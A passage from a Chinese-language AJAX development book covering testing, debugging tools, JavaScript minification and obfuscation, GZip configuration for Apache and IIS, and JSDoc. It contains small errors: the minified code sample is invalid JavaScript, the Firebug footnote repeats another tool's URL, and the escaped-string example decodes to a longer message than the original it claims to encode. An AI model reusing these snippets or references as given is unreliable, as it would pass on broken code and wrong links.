与商业中的大多数事情一样，软件测试的目标是最大限度地降低即时成本，同时最大限度地提高拥有更高质量软件和重用测试架构的长期效益。为了实现和平衡这两个目标，在软件项目的生命周期内可以做几件事。首先，为了限制开发测试架构所产生的成本，可以做以下几件事：

- **尽早实施测试**——测试相关的有效时间越长，它提供的价值就越大。
- **先进行粗粒度的手动测试**——通过廉价的手动测试已经发现或容易发现的缺陷越多，自动化测试的成本就越高。
- **重用测试基础设施**——如果你的测试基础设施能在未来很长时间内提供价值，你实际上就降低了前期成本。

### 冒烟测试

冒烟测试的想法源自电子行业，新设计的电路进行的第一次测试是看它是否产生烟雾——这通常被视为一个坏兆头。类似的想法也适用于软件。冒烟测试包括几个粗略覆盖软件的自动化测试。从底层架构开始逐步向上，冒烟测试应涵盖所有主要功能领域。如果冒烟测试通过，软件就可以被认为是一个良好的构建版本，可以进入正式的质量保证流程。这类似于在创建昂贵的自动化测试之前先进行手动测试的想法。

在构建完整的测试架构时，冒烟测试是一个良好的第一步。它使你能够快速且先发制人地识别简单问题，如配置更改或严重的回归缺陷，并使开发人员专注于高价值的手动测试，而不会让他们自满并依赖于可能编写和实现不佳的测试。

## 实现

我们提到，JSUnit 和 Selenium 都有服务器端组件，使我们能够使用 Java 等服务器端语言执行甚至编写测试。这有助于将客户端测试与服务器端测试保持一致，并更容易地将这些测试集成到构建过程或开发 IDE 中。通过开始逐步实施这些基于服务器的自动化测试解决方案和一个简单的冒烟测试，你可以为未来的测试架构增加价值，并开始预防可怕的回归缺陷。

### 浏览器测试

尽管所有这些测试问题都是众所周知的，并且除了工具之外，在任何类型的软件开发中都存在相同的问题，但在不同 Web 浏览器中测试软件可能是 AJAX 测试中最昂贵和最繁琐的问题。这一事实使得自动化测试更具吸引力，因为它可以用于将测试分发到运行不同厂商和版本 Web 浏览器的各种机器上。另一个选择是使用像 BrowserCam[9] 这样的服务，它既提供对运行着各种不同 Web 浏览器的服务器的远程访问，也提供屏幕截图服务，可以自动截取在各种浏览器中运行的应用程序的屏幕截图。你可以在不同浏览器中手动运行测试的同时，仍然看到可视结果的好处——记住，人们非常擅长发现异常。

### 手动测试

我们了解了一些可以用来帮助 AJAX 测试工作的巧妙工具。然而，不能忽视的最终测试方法是手动测试。手动测试对于发现缺陷非常宝贵，并且在某些情况下具有很高的价值，因为它在测试中引入了随机性。虽然在一定程度上可以将随机性引入自动化测试，但它无法替代实际让某人使用软件。

[9] <http://www.browsercam.com>

软件可能会以自动化测试中完全未计划到的某种方式进行交互。这正是手动测试大放异彩的地方。它不仅引入了随机性，而且人们善于发现异常行为，无论是在用户界面布局方面还是与用户界面中的数据相关。另一方面，计算机虽然不擅长发现怪异之处，但与人类不同，它们擅长检查精确结果——这恰恰是单元测试所期望的那种结果。因此，尽管对手动测试的第一反应可能是它成本高昂，但你可能会发现，考虑到它能在短时间内发现大量意外缺陷，其成本完全是值得的。一个常用的经验法则是先执行手动测试；任何由此产生的缺陷都应优先处理，并为其编写自动化单元或功能测试——如果其优先级足够高——以防止未来的回归缺陷出现。但无论你做什么，在质量保证流程中都不要忽视一轮仔细手动测试的价值。

### 持续集成

测试与质量保证拼图的最后一块是运行所有自动化测试的软件，并确保软件既可构建，且构建后的软件也能通过测试。通常，对此使用的术语是**持续集成**。任何有价值的持续集成软件都可以连接到首选的代码仓库，如 Subversion[10]，并在代码检出时对软件执行各种测试。

有各种持续集成产品，如 CruiseControl 和 AntHill。没有哪一个是专门为 AJAX 构建的；然而，它们都支持持续运行自动化测试、构建软件，并通过电子邮件和 Web 界面通知软件状态。由于 Selenium 和 JSUnit 都支持从 JUnit 或 Ant 远程执行测试，因此它们都非常适合包含在持续集成环境中。

自动化测试和持续集成中必须避免的一个陷阱是，开发者对构建或测试错误变得麻木。尽管许多人倡导先编写测试并让所有测试失败——正如测试驱动开发所提倡的——但这也会导致测试结果要么不采取行动，要么完全被忽略，从而使自动化测试工作变得昂贵。尽管所有这些测试工具和方法都可以帮助构建更好的软件，但大量的文化和行为问题可能会让规划良好的项目功亏一篑。

## 调试

修复 AJAX 应用程序中的问题长期以来一直是 Web 开发者的噩梦，因为直到最近，几乎没有什么工具可以协助这项工作。与 IDE 接管调试任务（如堆栈跟踪和代码单步执行）的其他语言不同，JavaScript 在 Web 浏览器中盲目执行，当出现问题时几乎无法提供有用的反馈。那些曾见过臭名昭著的 `"null is null or not an object"` 错误消息的人完全明白我们在说什么。另一个问题是，当 XHR 请求静默失败时，我们如何对服务器进行故障排除？目前有很好的工具可以解决这些问题，从而简化开发。

### Venkman

可用于 JavaScript 调试的最强大工具之一是 Mozilla JavaScript 调试器，或称 Venkman¹¹，它不仅可以协助进行基本的语法检查，还可以设置断点、检查变量的上下文（是否曾想知道在任何给定时间 `this` 指的是什么？）、单步执行代码以及执行调用堆栈导航。它仅适用于 Mozilla（包括 Firefox），但这意味着它可以在 MacOS、Linux 和 Windows 上运行。它通常对于调试 IE 问题也很有用，因为许多 JavaScript 在不同浏览器中是相同的。

Venkman 调试器有六个通用区域。“已加载脚本”窗格显示当前页面包含的脚本文件。通过单击此窗格中 JavaScript 文件旁边的展开/折叠三角形，您可以浏览文件中的各种函数。

- “局部变量”面板显示函数执行所在作用域中变量的值。
- “监视”和“断点”面板（参见图 5.13）让您指定何时开始调试、何时停止执行等。
- “调用堆栈”面板显示您当前在代码中的位置。由此，您始终可以确定正在执行哪个函数以及谁调用了它。
- “源代码”视图显示您正在调试的实际 JavaScript 代码。
- “交互会话”面板提供了一个命令行供使用。在此处键入 `/help` 以获取命令参考。



**图 5.13** Mozilla 的 Venkman JavaScript 调试器

### MS 脚本调试器

微软与 Venkman 对应的工具是 MS Script Debugger¹²（参见图 5.14），同样免费提供。使用 Script Debugger，您可以使用交互式控制台并查看堆栈跟踪，如图 5.14 所示。它确实有效，如果您需要调试 Internet Explorer 的问题，这是一个不错的选择。更好的解决方案可以在 Visual Studio 中找到。使用 Visual Studio，您可以设置变量监视、创建断点并单步执行代码——快速有效调试所需的一切。使用哪个取决于个人偏好，而且您可能不需要同时使用两者。它们都仅在 Windows 上的 Internet Explorer 中有效；然而，如果您需要为跨平台支持编写代码，您可能需要从 Venkman 开始。如果您确实想在 Internet Explorer 中使用调试，您首先需要确保通过在 Internet Explorer 高级设置（工具、Internet 选项、高级）中取消选中“禁用脚本调试”选项来在浏览器中启用了调试。

这里要指出的另一件重要事情是使用 `debugger` 关键字。这可能是整个 JavaScript 中最有用的关键字之一。它本质上就是在代码中设置断点的方式，它不仅在 Internet Explorer 中有效，在 Firefox 的 Firebug 中也有效。



**图 5.14** Microsoft Script Debugger

## Firebug

目前用于 JavaScript 调试、DOM 检查、网络嗅探以及介于两者之间的一切的最佳解决方案是 Firefox 的 Firebug¹³。其 JavaScript 调试功能正如您所期望的，可以使用 `debugger` 语句设置断点、单步进入、跳过和跳出函数调用，并在浏览器中直接查看代码。Firebug 允许点击式 DOM 检查以及实时编辑 DOM 结构和 CSS 属性。Firebug 最有用且独特的功能之一是 Console（控制台），它允许开发者在当前页面的上下文中键入并执行任意 JavaScript。控制台也可用于显示执行 JavaScript 代码时的日志或调试消息。不要使用 `alert()` 进行快速粗糙的调试，只需使用 Firebug 的 `console.log("Welcome %s", username)` 方法，它支持类似 printf 的字符串（`%s`）、数字（`%d`、`%i`、`%f`）和对象（`%o`）替换。`console.log()` 方法很方便，因为它可以以可读的格式输出复杂的对象，如数组和 HTML 元素。`console.trace()` 可用于输出堆栈跟踪，`console.time("name")` 与 `console.timeEnd("name")` 可用于内联的、临时的计时信息。

在最新的 Firebug 1.0 版本中，提供了嗅探和报告所有网络流量的功能，包括 XHR 请求以及图像和 CSS 等资源的下载。这可以让开发者敏锐地洞察其网络基础设施中的瓶颈所在。Firebug 最新版本的第二个新功能是网页性能分析。单击 Profile 按钮会导致 Firebug 跟踪所有 JavaScript 代码执行，并以易于阅读的格式呈现登录 GMail 时运行代码的结果，如图 5.15 所示。

¹² <http://www.microsoft.com/downloads/details.aspx?FamilyID=2f465be0-94fd-4569-b3c4-dffdf19ccd99&displaylang=en>

¹³ <http://www.microsoft.com/downloads/details.aspx?FamilyID=2f465be0-94fd-4569-b3c4-dffdf19ccd99&displaylang=en>

**图 5.15** Firebug JavaScript 分析报告

## Microsoft 开发人员工具栏

与脚本调试器用途略有不同的是 DOM 调试器。其中之一是 Microsoft 开发人员工具栏。¹⁴ 该工具栏不能用来调试 JavaScript，但允许你通过点击页面上对象来检视它们，以树状视图浏览 DOM，以及查看和设置 DOM 元素上的 CSS 属性，如图 5.16 所示。开发人员工具栏是一个浏览器助手对象，会被安装到浏览器内部，在需要时加载非常方便快捷。

**图 5.16** Microsoft 开发人员工具栏

¹⁴ <http://www.microsoft.com/downloads/details.aspx?familyid=e59c3964-672d-4511-bb3e-2d5e1db91038&displaylang=en>

## Fiddler

针对调试 HTTP 请求这一问题，Fiddler¹⁵ for Windows 允许开发人员查看发送到服务器的所有 HTTP 请求的详细信息，进行性能分析（回答“为什么我的应用程序下载这么慢？”这样的问题），查看哪些资源被缓存而哪些没有，甚至可以自动化测试，如图 5.17 所示。Fiddler 内置了一个用于 Internet Explorer 的浏览器助手对象，但也可以通过设置代理在 Firefox 中使用。

**图 5.17** Microsoft Fiddler

## Safari

尽管对错误日志进行了改进，但在 Safari 中调试 AJAX 应用程序仍然比较困难。Safari 支持一个调试窗口，可以通过在控制台中启用它来激活。在终端窗口（应用程序，实用工具，终端）中输入以下命令即可：

```bash
defaults write com.apple.Safari IncludeDebugMenu 1
```

然后，启动 Safari，在**调试**菜单中选择**记录 JavaScript 异常**项。在 Safari 1.3 及更高版本中，选择**显示 JavaScript 控制台**菜单项，JavaScript 控制台窗口将打开以显示 JavaScript 异常。对于更早版本，JavaScript 异常会显示在控制台应用程序中（应用程序，实用工具，控制台）。

幸运的是，Safari 1.3 及更高版本支持从 JavaScript 显式记录任意信息，类似于 Firebug 中的 `console.log()`，通过使用 `window.console.log()` 来实现。所有消息都会被路由到 JavaScript 控制台窗口，并以深绿色显示。

Safari 中的 DOM 检查由 WebKit 提供的 Web Inspector¹⁶ 支持。Web Inspector 类似于 Web 开发人员工具栏和 Firebug 所提供的功能，允许通过点选方式进行 DOM 检查。

## 部署

我们讨论了如何使用持续集成来保持项目持续构建，并确保不会产生回归缺陷。如果冒烟测试通过，我们就可以部署应用程序或发布产品。然而，工作并没有就此完全结束。在考虑如何部署应用程序时，还有一些额外的事项需要考虑。前两项涉及性能（我们已经讨论过），后两项则与 AJAX 的安全保护和文档化有关。

### JavaScript 压缩

JavaScript 从不被编译，当我们把 AJAX 应用程序发送到浏览器时，所有的源代码也随之发送。虽然在开发 JavaScript 时，格式良好、带有大量注释甚至内联文档的代码非常有用，但这对代码体积有负面影响。代码体积应尽可能小，但不能以牺牲代码可读性、可维护性或文档为代价。如果为了减小代码体积而格式化 JavaScript 代码，当然可以通过移除注释甚至空白字符来压缩代码，从而将代码体积减少多达 50%。然而，我们不必为了代码体积而失去清晰、可读代码带来的好处；相反，我们可以使用众多可用工具中的一种来自动缩减 JavaScript 代码的体积。其中一些更复杂的工具所使用的技术是模式匹配和替换引擎，它会移除较长的函数和变量名，用简短的、看似无意义的名称替代。这些工具中有些被宣传为可以通过这种方式抽象代码来防止知识产权被盗用，但这也可能破坏依赖于外部固定 API 的代码。这是提高自动化测试价值的另一种方式——用它们来检查构建后的 JavaScript 文件。

### 代码最小化与混淆

用来减小 JavaScript 代码体积（通常称为最小化）的典型技术，会带来代码可读性下降的副作用，包括以下几种：

- 移除注释
- 折叠行首空白
- 移除行尾空白
- 合并多个空行
- 移除所有换行符
- 移除运算符周围的空白
- 移除大括号附近和周围的空白
- 用更短的名称替换符号

例如，某些经过文档化、可读性高且可维护的非优化 JavaScript 代码（这正是让开发人员满意所需要的），可能看起来像这样：

```javascript
/**
 * @private
 */
var _calcAverage = function(aNumber)
{
  var nTotal = 0;
  var iLength = aNumber.length;

  for (var iIndex = 0; iIndex < iLength; iIndex++)
  {
    nTotal += aNumber[iIndex];
  }

  return nTotal / iLength;
}

/**
 * Calculates the average of an array of numbers.
 * @param {Array} Array of numbers to average.
 */
```


`var calcAverage = _calcAverage;`

在保留公共 API（在本例中为函数名）的前提下，我们可以对其进行优化，移除空白和注释，并缩短变量名，从而实现 70% 的体积缩减。如果 `calcAverage` 方法在内部被频繁调用，我们还通过创建名为 `_calcAverage` 的中间私有函数，在编码内部引用的同时保留了公共 API。最小化后的 JavaScript 代码可能看起来像这样：

```javascript
var _a(a){var b=0;var c=a.length;for (var d=0;d<c;d++){
b+=a[d];}return b/c;}var calcAverage=_a;
```

最小化 JavaScript 最流行的工具可能是 DOJO Foundation 提供的那个。它基于 Java（实际上基于基于 Java 的 JavaScript 运行时 Rhino），可以轻松集成到例如 Ant 构建过程中，如下所示：

```xml
<!-- creates an obfuscated JS file -->
<target name="obfuscateJS" description="compress and obfuscate
code">
  <java classname="org.mozilla.javascript.tools.shell.Main"
    dir="${basedir}\build\rhino\bin\" fork="true"
    output="${basedir}\output\src_obfuscated.js">
    <arg line="-c  ${basedir}\output\src.js" />
    <classpath>
      <pathelement path="${basedir}\build\rhino\bin\js.jar"/>
    </classpath>
  </java>
</target>
```

由于 Rhino 项目是开源的，你可以下载代码并定制压缩算法，使其对代码进行或多或少的压缩。需要注意的一点是，`eval()` 函数在最小化 JavaScript 时可能会带来麻烦。考虑以下代码：

```javascript
function foo(foobar) {
  return eval("foobar");
}
```

由于基于 Rhino 的压缩不会触及字符串值，最小化后，这段代码会变成这样：

```javascript
function foo(_a) {return eval("foobar");}
```

现在，局部变量 `foobar` 不存在了，这将抛出错误。要解决这个问题，请避免使用 `eval()`；如果必须使用，请确保任何局部变量的名称不超过三个字符，这样它们就不会被 Rhino 最小化。

最小化还有其他一些良好的副作用，比如由于需要解释的代码更少，代码实际上会运行得更快。JavaScript 解释器必须查看运行中 JavaScript 的每一个字符，因此变量名越短，它需要解析的字符就越少。

### GZip 或 Deflate 压缩

压缩代码的最终（在大多数情况下也是最简单和最好的）选择是使用 GZip 压缩来压缩它。在 Microsoft IIS 和 Apache 中可以轻松地在服务器端对代码进行 GZip 压缩，所有现代浏览器都可以动态地即时解压 GZip 压缩内容，从而可以在网络上传输体积更小的文件（体积减少 70%）。

要使 GZip 生效，浏览器必须发送值为 `gzip,deflate` 的 `Accept-Encoding` 头，表明它可以处理 GZip 压缩的内容。服务器使用该头来确定是否可以发送 GZip 压缩的内容。如果服务器以压缩的有效负载进行响应，它还必须将 `Content-Encoding` 头设置为相应的文件编码（如 `gzip` 或 `deflate`），以告知浏览器需要先对内容进行解码再使用。即使未设置 `Content-Encoding` 头，Firefox、Internet Explorer 和 Opera 都可以接受 GZip 压缩的 JavaScript 文件。

#### Apache 文件压缩

要在 Apache 上启用 GZip，可使用 `mod_deflate` 或 `mod_gzip` 模块，两者功能相当相似；不过，`mod_deflate` 通常更受青睐，因为它在最新的 Apache 版本中默认安装，并且在服务器负载和速度方面性能略优于 GZip。另一方面，GZip 确实能实现稍高的压缩率；不过，这通常不值得费力去追求。

如果你的 Apache 版本尚未包含 `mod_deflate`（任何低于 2.0 的版本），你可以在编译时使用 `configure` 命令将 `mod_deflate` 一起编译进 Apache：

```bash
./configure
-enable-modules=all /
-enable-mods-shared=all /
-enable-deflate
```

Apache 的 `httpd.conf` 文件需要更新，其中应包含类似如下配置的段落：

```apache
#### 除非下面排除，否则压缩所有内容。
SetOutputFilter DEFLATE
SetInputFilter DEFLATE
SetEnvIfNoCase Request_URI \.(?:gif|jpe?g|png)$ no-gzip dont-vary
SetEnvIfNoCase Request_URI \.(?:exe|t?gz|zip|bz2|rar)$ no-gzip dont-vary
SetEnvIfNoCase Request_URI \.(?:pdf|avi|mov|mp3|rm)$ no-gzip dont-vary

#### 明确压缩某些文件类型
AddOutputFilterByType DEFLATE text/html text/plain text/xml
```

如果你在设置 Apache 进行 GZip 压缩时不确定其是否正常工作，可以使用一些服务[^17]来检查你的脚本或页面是否确实启用了 GZip 压缩。

[^17]: <http://www.whatsmyip.org/mod_gzip_test>

#### IIS 文件压缩

对于使用 Windows 服务器的用户，IIS 中的压缩也可以轻松启用。在最新 Windows 2003 服务器附带的 IIS 6 中，压缩通过 IIS 管理器控制台进行配置。请按照以下步骤操作。

1. 右键单击“网站”文件夹，然后单击“属性”。
2. 选择“服务”选项卡。
3. 选中“压缩静态文件”复选框。
4. 单击“应用”，然后单击“确定”。

IIS 管理器中的“压缩静态文件”选项仅压缩扩展名为 htm、html 和 txt 的文件。如果我们想压缩扩展名为 js 的 JavaScript 文件，这就不够好了。文件扩展名作为参数保存在元数据库中的 `HcFileExtensions` 和 `HcScriptFileExtensions` 元数据库键中，所有 IIS 属性都存储于此。

在命令提示符下，键入 `runas /profile /user:MyComputer\Administrator cmd` 以打开具有管理员权限的命令窗口，然后键入 `cscript.exe ScriptName`（包括脚本的完整路径和任何参数）。

1. 打开命令提示符。
2. 导航到 `c:\wwwroot\inetpub\AdminScripts`。
3. 运行以下命令以设置使用 GZip 压缩 JavaScript 和 CSS 文件：`cscript.exe adsutil.vbs set W3Svc/Filters/Compression/GZIP/HcFileExtensions "js" "css"`。
4. 运行以下命令以设置使用 Deflate 压缩 JavaScript 和 CSS 文件：`cscript.exe adsutil.vbs set W3Svc/Filters/Compression/DEFLATE/HcFileExtensions "js" "css"`。
5. 运行以下命令以重启 IIS：`IISreset.exe /restart`。

现在，我们可以配置 IIS 或 Apache 来提供压缩内容。在大型企业应用程序上执行此操作之前，请确保检查你的服务器是否有足够的资源来处理动态提供压缩内容的需求。

### 预期结果

我们能从这些技术中预期获得什么样的压缩效果？基于我们在第 3 章“AJAX 在 Web 浏览器中”为 EventManager 对象编写的代码（该代码当然是以可读、可维护的方式编写的，并附有良好的文档和代码注释），我们查看了压缩和混淆两者的结果。不同操作产生的文件大小概述如下。

| 原始大小 (KB) | 混淆 (Kb) | GZip (Kb) | 混淆 + GZip (Kb) | 尺寸缩减 (%) |
| --- | --- | --- | --- | --- |
| 9.3 | 3.9 | 2.8 | 1.3 | 86 |

你可以看到，混淆在减少 JavaScript 文件大小方面效果显著，在此之上添加 GZip 可以将代码大小减少近 90%。

## 图像合并

如性能部分所述，提供应用资源（如图像、CSS 和 JavaScript 文件）会影响应用程序的启动性能。为避免这种情况，建议在构建时当然，将所有 JavaScript 文件合并成单个文件，或者至少使用像 Ant（<http://ant.apache.org/>）这样的工具将相关文件合并成几个较大的文件。

我们不能在构建前将所有文件合并，因为在开发阶段我们需要保持小而独立的文件，以尽可能保持多名开发人员的工作流程顺畅。我们不仅可以合并 JavaScript 文本文件，还可以将图像文件合并成单个文件，并使用 CSS 裁剪来显示在不同情况下我们想要的图像区域。例如，图 5.18 显示了一个同时包含彩色和灰度版本的单一图像。（注意此图像中未显示彩色）。


**图 5.18** 可以使用 CSS 裁剪成两个不同图像的单个图像

如果我们想在页面上同时显示标志的彩色版本和灰度版本，我们可以通过加载单个图像并应用以下 CSS 来节省一些加载时间：

```html
<html>
  <head>
    <title>CSS Clip</title>
    <meta http-equiv="Content-Type"
      content="text/html;charset=utf-8"/>
    <style type="text/css" media="screen">
      .colour {
        position:absolute;
        clip: rect(0px 135px 125px 0px);
      }

      .grayscale {
        position:absolute;
        left:-135px;
        clip: rect(0px 270px 125px 135px);
      }

      .grayscale, .colour {
        width: 270px;height: 125px;
        background: url(images/nitobi.jpg);
      }

      .container {
        height:125px;width:135px;
        position:relative;
      }
    </style>
  </head>

  <body>
    <div class="container"><div class="colour"></div></div>
    <div class="container"><div class="grayscale"></div></div>
  </body>
</html>
```

`clip rect` 参数的顺序是上、右、下、左，这对大多数人来说是个奇怪的顺序。注意我们在值之间没有包含逗号，因为 Internet Explorer 不喜欢这样。

## 保护知识产权

最后，如果担心 JavaScript 源代码被窥探（例如，如果你销售包含 JavaScript 代码的商业软件产品），可以混淆 JavaScript 使其几乎无法阅读。保护 JavaScript 知识产权是一个常见且在某种程度上可实现的目标，许多专有和开源产品（质量参差不齐）都支持这一点。你可以应用三种有用的技术来实现这一目的。

通过使用前面提到的技术对 JavaScript 代码进行一般压缩，可以生成本质上毫无意义的代码。通过移除所有代码注释，并将变量名更改为不可读的乱码，这使得逆向工程变得极其困难。例如，将所有局部变量重命名为像“_1”这样的东西，移除了自然语言标识符带来的内在理解。

代码中的字符串字面量也有助于阻碍攻击者在代码中搜索重要的执行点。选择性地将应用程序消息编码为部分 Unicode 或十六进制字符串也可能很有用。例如，代码：

```javascript
alert('Your trial period has expired!');
```

可以变成：

```javascript
alert('\u0059\u006f\u0075r\u0020\x74ria\u006c\u0020\u0070\u0065ri\u006f\u0064\u0020\u0068a\u0073\u0020\u0065\u0078\x70ir\u0065\u0064\u0021\u0020\u0050\u006c\x65a\u0073\u0065\u0020\u0067\u006f\u0020\u0074\u006f\u0020\u0077\u0077\u0077\x2e\u006ei\u0074\u006f\x62i\u002e\u0063\u006f\u006d\u0020\u0074\u006f\u0020\u0062\u0075\u0079\u0020\u006f\u006e\u006ci\u006e\u0065\u002e');
```

注意原始字符串中的一些字母（`'r'`、`'i'` 和 `'a'`）被保留为 ASCII 字符，以阻碍基于该字符串的搜索和替换技术。与所有事情一样，这对代码大小也有影响，因为编码你的字符串字面量可能会将每个 ASCII 字符替换为 4 到 6 个字节，具体取决于使用的是“`\u00`”还是“`\x`”编码。

## 文档

软件部署后，最后要考虑的是文档。如果你正在构建一个 AJAX 应用程序或组件，它需要一些文档，以便其他开发人员可以使用你的代码。

作为开发人员，认识到文档的高价值并花额外时间务实地为代码编写正式文档和代码注释是非常重要的。正式文档最容易的方式是直接在源代码中注释，并使用 JSDoc（<http://jsdoc.sourceforge.net>）等工具生成“精美”的文档。

与其他适用于 Java 和 .NET 的 XDocs 类似，JSDoc 可以解析代码中特定格式的所有注释，并生成 HTML 格式的文档。JSDoc 甚至可用于注释 CSS 文件和其他可能需要文档的资源。

JSDoc 能从普通 JavaScript 代码中获取大量信息，例如类、方法甚至继承层次结构。我们在前面的章节中已经看到了一些文档示例，但这里是一个简单的例子：

```javascript
function Foo(){}

function Bar(){}

Foo.prototype = new Bar();
```

生成的文档，如图 5.19 所示，甚至包含继承层次结构，而我们无需做任何额外工作！

### 图 5.19 JSDoc 生成的文档

另一方面，如果你决定使用更有用的 JavaScript 继承方法，例如第 2 章“AJAX 构建模块”中介绍的方法，则可能需要在代码的 JSDoc 注释中显式定义继承关系。一些重要的 JSDoc 修饰符包括：

| 标签 | 描述 |
| --- | --- |
| `@constructor` | 类的构造函数 |
| `@class` | 类的名称 |
| `@param` | 定义传递给函数或方法的参数 |
| `@extends` | 类的父类 |
| `@type` | 字段或方法返回值类型 |
| `@see` | 提供指向文档中另一个类或方法的链接 |

我们可以在注释类、字段和方法时使用这些 JSDoc 修饰符，如下所示：

```javascript
/**
 * 创建一个新的 SimpleDataTable 实例
 * @class 用于存储服务器记录数据的简单类。
 * @constructor
 * @extends entAjax.DataModel
 */

entAjax.SimpleDataTable(data)
{
  /**
   * 包含 DataTable 中渲染的数据
   * @private
   * @type {Array}
   * @see entAjax.DataModel#get
   */

  this.m_data = data;
}

/**
 * @return 从服务器返回数据。
 * @param {String} url 服务器上数据位置的 URL
 * @type
 */

entAjax.SimpleDataTable.prototype.get = function(url) {}
```

JSDoc 目前是一个用 Perl 编写的开源项目。要实际构建文档，在控制台窗口中使用单个命令：

```bash
perl jsdoc.pl myCode.js
```


当然，这需要你的计算机上安装了 Perl，并且此命令在 JSDoc 安装的文件夹中执行。

## 小结

本章介绍了 AJAX 开发的许多方法和相关工具，这些工具可以帮助你的 AJAX 项目从设计走向部署。你现在应该熟悉了设计 AJAX 应用程序的过程，并对 AJAX 所支持的用户交互模式细节保持敏锐的观察力。虽然不一定提倡过早优化，但我们也指出了 AJAX 应用程序中性能可能成为问题的一些领域，并强调其中一些问题应该在设计或原型开发阶段就被识别和缓解，而不是拖到更后面。此外，我们还介绍了专门为测试 AJAX 应用程序而设计的方法和工具，并讨论了这些方法的一些重要陷阱，以及如何管理测试中的一些风险。最后，我们研究了围绕应用程序部署的各种问题，例如如何通过压缩 JavaScript 代码来提高性能、采取步骤保护知识产权，以及如何为你的代码生成文档。

## 资源

- Bill Scott 的 RIA Visio 模板：http://looksgoodworkswell.blogspot.com/2005/05/interactive-wireframes-documenting.html
- Digimmersion Flex 2 RIA 模板：http://www.digimmersion.com/products/ria_20.cfm
- “12 步让 DHTML 更快”：http://msdn.microsoft.com/workshop/author/perf/dhtmlperf.asp
- “使用 XSLTemplate 对象提高性能”：http://msdn2.microsoft.com/en-us/library/ms763679.aspx
- Selenium 功能测试：http://www.openqa.org/selenium
- “JSUnit JavaScript 单元测试”：http://www.jsunit.net
- JSMock 模拟对象：http://jsmock.sourceforge.net
- “HTTPUnit HTTP 单元测试”：http://httpunit.sourceforge.net
- “适用于 Mozilla/Firefox 的 Venkman”：http://www.mozilla.org/projects/venkman/
- Microsoft 脚本调试器：http://www.microsoft.com/downloads/details.aspx?FamilyID=2f465be0-94fd-4569-b3c4-dffdf19ccd99&displaylang=en
- Microsoft 开发工具栏：http://www.microsoft.com/downloads/details.aspx?familyid=e59c3964-672d-4511-bb3e-2d5e1db91038&displaylang=en
- Mozilla Firebug：https://addons.mozilla.org/firefox/1843/
- Microsoft Fiddler：http://www.fiddlertool.com/
- Safari 调试：http://developer.apple.com/internet/safari/faq.html
- Safari（WebKit）DOM 检查器：http://webkit.org/blog/?p=41
- DOJO 压缩器（基于 Rhino）：http://dojotoolkit.org/docs/compressor_system.html
- DOJO ShrinkSafe（快速简单压缩）：http://alex.dojotoolkit.org/shrinksafe/
- Thicket：http://www.semdesigns.com/Products/Obfuscators/ECMAScriptObfuscator.html
- Jasob 2：http://www.jasob.com
- JavaScript 混淆器：http://www.javascript-source.com/
- Stunnix：http://www.stunnix.com/prod/jo/overview.shtml?g2
- ICE Pro：http://www.syntropy.se/?ct=products/icepro&target=overview
- Tool Galaxy JavaScript 混淆器：http://tool-galaxy.remiya.com/html/10.html
- Scripts Encryptor：http://www.dennisbabkin.com/php/download.php?what=ScrEnc
- Shane Ng 的 JavaScript 压缩器：http://shaneng.awardspace.com/
- Dean Edwards JavaScript 混淆器/压缩器：http://dean.edwards.name/packer/
- ESC ECMAScript 预处理器：http://www.saltstorm.net/depo/esc/
- Jammer：http://rzr.online.fr/docs/shop/jammer.htm
- JS Cruncher PRO：http://domapi.com/jscruncherpro/
- Strong JS Shrinker：http://www.stronghtml.com/tools/js/
- JavaScript Scrambler：http://www.quadhead.de/jss.html
- Script Asylum 的 JavaScript 编码器：http://scriptasylum.com/tutorials/encdec/javascript_encoder.html
- Apache mod_deflate：http://httpd.apache.org/docs/2.2/mod/mod_deflate.html
- CodeHause ASCII 字符串转 Unicode：http://www.codehouse.com/webmaster_tools/html_encoder/

# 第 6 章 AJAX 架构

现在我们已经研究了如何着手设计系统的组件，是时候将注意力转向这些组件如何组合在一起，即系统的架构了。传统的基于 Web 的应用程序具有相对简单的架构，所有处理都在服务器端完成，客户端仅充当没有智能的简单浏览器。现在，我们已将大量处理和智能转移到了客户端，因此需要了解客户端和服务器如何交互，重点是改进交互以提高应用程序的性能。

在本章中，我们来看一些构建基于 AJAX 的应用程序时需要做出的重要架构决策。我们涵盖与服务器异步通信的不同方法，例如轮询和服务器推送。与从服务器检索数据相关的是，我们如何在架构的不同层次使用缓存，以在应用程序中实现性能和效率提升。此外，我们还研究了多人进行多个小数据请求时涉及的问题以及随之而来的数据完整性问题，以及当我们尝试为离线 AJAX 寻找解决方案时，这些问题如何变得更加复杂。

## N 层架构：从 1 层到 n 层

系统架构中最重要的活动之一是将应用程序拆分为逻辑块，或称为层。每一层都被赋予特定的角色或一组职责。单一层应用程序的例子是一个小型计算器应用程序，它将输入、计算和显示功能打包到一个小的可执行文件中。双层应用程序的例子是一个静态网站，其中两层是服务器和浏览器。大多数传统的 Web 应用程序使用三层模型，浏览器作为一层，ColdFusion 或 IIS 等应用程序服务器作为第二层，以及由 MSSQL 或 Oracle 等数据库构成的第三层。

